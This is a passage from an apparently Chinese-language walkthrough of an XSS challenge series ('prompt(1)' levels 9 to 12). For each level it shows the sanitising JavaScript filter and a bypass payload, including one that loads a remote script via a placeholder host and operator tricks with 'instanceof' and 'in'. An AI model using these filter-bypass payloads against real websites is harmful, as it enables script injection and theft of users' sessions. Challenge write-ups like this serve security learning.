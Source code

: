 ```
u+2028,是unicode中的行分隔符。
u+2029,是unicode中的段落分隔符。
-->在js中是注释用的。
```
## 第9关
```
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}        
```
看了源码，就是将<后面的所有字符的前面加上_，因为toUpperCase()不仅转换成英文字母，也转换一些Unicode字符，你们可以试一下编码绕过。同时javascript对大小写敏感，所以构造的payload为：<script/src="xxx/1.js"></script>，经过转换就可以加载远程的js脚本。
## 第10关
```
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}        
```
这题有点简单，进行了html编码，将prompt替换成了alert,还将'替换为空，仔细想想就能绕过，encodeURIComponent()不会对ASCII字母和数字进行编码，也不会对符号进行编码，所以我们的payload为：
`p'rompt(1)`
## 第11关
```
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}  
```
这道题我试下，名字相同，一定会输出在后面，这就需要构造"message":prompt(1)
。但是想闭合的时候发现正则表达式过滤了，只能想办法绕过，我们可以利用字母操作符，这里我们用in,instanceof。
* payload:
`"(prompt(1))instanceof"或者"(prompt(1))in"`
## 第12关
```
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
```
